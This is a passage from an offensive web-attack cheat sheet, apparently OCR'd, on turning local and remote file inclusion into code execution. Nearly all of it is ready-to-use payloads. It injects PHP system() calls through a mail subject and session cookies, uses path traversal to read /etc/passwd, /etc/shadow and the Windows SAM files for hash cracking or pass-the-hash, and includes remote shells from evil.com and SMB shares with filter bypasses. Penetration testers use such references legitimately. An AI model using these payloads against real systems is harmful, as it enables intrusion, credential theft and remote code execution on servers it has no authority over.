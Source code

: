 In some cases you can also send the email with the mail command line.

```
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## LFI to RCE via PHP sessions
Check if the website use PHP Session (PHPSESSID)

Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] files

/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
Set the cookie to <?php system('cat /etc/passwd');?>

login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
Use the LFI to include the PHP session file

login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
LFI to RCE via credentials files
This method require high privileges inside the application in order to read the sensitive files.

Windows version
First extract sam and system files.

http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.

Linux version
First extract /etc/shadow files.

http://example.com/index.php?page=../../../../../../etc/shadow
Then crack the hashes inside in order to login via SSH on the machine.

Basic RFI
Most of the filter bypasses from LFI section can be reused for RFI.

http://example.com/index.php?page=http://evil.com/shell.txt
Null byte
http://example.com/index.php?page=http://evil.com/shell.txt%00
Double encoding
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
Bypass allow_url_include
When allow_url_include and allow_url_fopen are set to Off. It is still possible to include a remote file on Windows box using the smb protocol.

Create a share open to everyone
Write a PHP code inside a file : shell.php
Include it http://example.com/index.php?page=\\10.0.0.1\share\shell.php
Webshell
A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can’t filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the HTTP traffic.

